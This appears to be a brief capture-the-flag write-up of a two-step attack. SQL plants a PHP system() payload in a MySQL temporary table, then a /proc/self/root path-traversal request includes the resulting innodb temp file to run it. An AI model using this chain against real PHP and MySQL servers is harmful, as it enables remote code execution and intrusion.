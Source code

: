 1. Send a SQL with create temp table and sleep to make the temp table exists. 
use admin_debug;\r\ncreate TEMPORARY table test(\r\n    test1 varchar(555)\r\n);\r\n\r\ninsert into test values('<?php system(\"/flag\");?>');\r\nDO SLEEP(50);
2. Send a POST request that bypass the level restriction to include the file that generated by MySQL when create temp table
?normal=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/level_checker&admin=/var/lib/mysql/%23innodb_temp/temp_{i}.ibt